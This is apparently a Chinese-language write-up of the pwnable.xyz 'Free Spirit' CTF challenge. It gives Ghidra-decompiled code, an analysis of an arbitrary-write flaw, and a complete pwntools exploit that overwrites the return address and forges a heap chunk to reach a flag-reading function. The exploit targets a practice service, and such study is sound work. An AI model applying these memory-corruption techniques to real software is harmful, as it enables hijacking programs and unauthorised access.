 ghidra查看代码

```c
undefined8 main(void)

{
  int iVar1;
  long lVar2;
  undefined4 *puVar3;
  long in_FS_OFFSET;
  byte bVar4;
  void *pvStack88;
  undefined4 local_50 [12];
  long local_20;
  
  bVar4 = 0;
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  pvStack88 = malloc(0x40);
LAB_004007f8:
  do {
    while( true ) {
      while( true ) {
        __printf_chk(1,&DAT_00400ade);
        puVar3 = local_50;
        for (lVar2 = 0xc; lVar2 != 0; lVar2 = lVar2 + -1) {
          *puVar3 = 0;
          puVar3 = puVar3 + (ulong)bVar4 * -2 + 1;
        }
        read(0,local_50,0x30);
        iVar1 = atoi((char *)local_50);
        if (iVar1 != 1) break;
        syscall();
      }
      if (1 < iVar1) break;
      if (iVar1 == 0) {
        if (pvStack88 == (void *)0x0) {     // C
                    /* WARNING: Subroutine does not return */
          exit(1);
        }
        free(pvStack88);                    // B
        if (local_20 == *(long *)(in_FS_OFFSET + 0x28)) {
          return 0;                         // A
        }
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
LAB_00400898:
      puts("Invalid");
    }
    if (iVar1 == 2) {
      __printf_chk(1,&DAT_00400ae1,&pvStack88);
      goto LAB_004007f8;
    }
    if (iVar1 != 3) goto LAB_00400898;
    if (limit < 2) {
      pvStack88 = *(void **)((long)pvStack88 + 8);
    }
  } while( true );
}

void win(void)

{
  system("cat /flag");
  return;
}
```



程序首先会执行malloc并赋值给pvStack88，然后以repl模式运行，输入不同数字的效果为：

- 0：如果pvStack88不为空，free并退出（return方式）；

- 1：读取最多0x20个字符到pvStack88指向的地址；

- 2：打印pvStack88的地址，既栈上的位置（返回地址=该地址+0x58）；

- 3：相当于执行`memcpy(&pvStack88-8, pvStack88, 16)` ；

  因为pvStack88的值被覆盖，所以可以实现任意地址写。

![内存信息](.assets/Free Spirit/内存信息.png)



**梳理下解题步骤：**

1. 得到返回地址的存储位置；

2. 修改返回地址为win函数；

3. 程序正常return，既执行到A行；

4. 而程序执行A行的前提是通过B和C，既需要伪造一个chunk；


![内存信息2](.assets/Free Spirit/内存信息2.png)

5. 程序是no-pie编译的，可以找到一个地址固定的有w权限的段来存放chunk（也可以放在栈上）；



**writeup**

```python
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

p = remote('svc.pwnable.xyz', 30005)
# p = process('./challenge')
p.recvuntil(b'>')
p.sendline(b'2')

maddr = p.recvline()[:-1].decode('utf-8')
print('addr:', maddr)
maddr = int(maddr, 16)

chunk_ptr = 0x601100
# chunk_ptr = maddr + 0x100

ret_addr = maddr + 0x58
win_addr = 0x400a3e

p.recvuntil(b'>')
p.send(b'1' + b' ' * 0x2f)
p.sendline(b'a' * 8 + p64(ret_addr))

p.recvuntil(b'>')
p.sendline(b'3')

p.recvuntil(b'>')
p.send(b'1' + b' ' * 0x2f)
p.sendline(p64(win_addr) + p64(chunk_ptr + 8))

p.recvuntil(b'>')
p.sendline(b'3')

p.recvuntil(b'>')
p.send(b'1' + b' ' * 0x2f)
# p.sendline(p64(0x21) + p64(chunk_ptr + 16))
p.sendline(p64(0x20) + p64(chunk_ptr + 16))

p.recvuntil(b'>')
p.sendline(b'3')

p.recvuntil(b'>')
p.sendline(b'0')

p.interactive()

```

